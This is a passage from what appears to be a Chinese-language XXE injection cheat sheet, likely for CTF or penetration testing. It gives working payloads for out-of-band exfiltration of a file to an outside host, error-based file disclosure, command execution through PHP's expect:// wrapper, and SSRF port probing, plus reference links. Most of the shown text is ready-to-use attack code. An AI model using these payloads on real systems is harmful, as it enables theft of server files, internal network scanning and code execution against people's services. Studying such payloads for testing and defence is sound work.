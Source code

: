 ```
    <!ENTITY % file SYSTEM "file:///flag">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; send SYSTEM &#x27;file://re.about/?&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;send;
    '> 
    %remote;
]>
```
#### Payload3；
有时候不引用外部DTD也可，原因在于代码实现3层嵌套下未严格执行标准。   
```
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ELEMENT message ANY>
    <!ENTITY % para1 SYSTEM "file:///flag">
    <!ENTITY % para '
        <!ENTITY &#x25; para2 "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///&#x25;para1;&#x27;>">
        &#x25;para2;
    '>
    %para;
]>
```

### 4. 代码执行
PHP语言环境。    
这种情况很少发生，但有些情况下攻击者能够通过XXE执行代码，这主要是由于配置不当/开发内部应用导致的。如果我们足够幸运，并且PHP expect模块被加载到了易受攻击的系统或处理XML的内部应用程序上，那么我们就可以执行如下的命令：  
```
<?xml version="1.0"?>
<!DOCTYPE GVI [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<root>
  <name>&xxe;</name>
</root>
```
### 5. SSRF端口探测

```
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "http://127.0.0.1:80">
]>
<x>&f;</x>
```

### 6.文件上传-jar协议 
这篇文章：[一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357)其中实验七有详细利用方法。   
### Tips
 - java 还支持一个 netdoc 协议，能完成列目录的功能   
### Reference
- [一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357)    
- [XML external entity (XXE) injection](https://portswigger.net/web-security/xxe)
- [Exploiting XXE with local DTD files](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)   
- [Blind XXE详解与Google CTF一道题分析](https://www.freebuf.com/vuls/207639.html)  
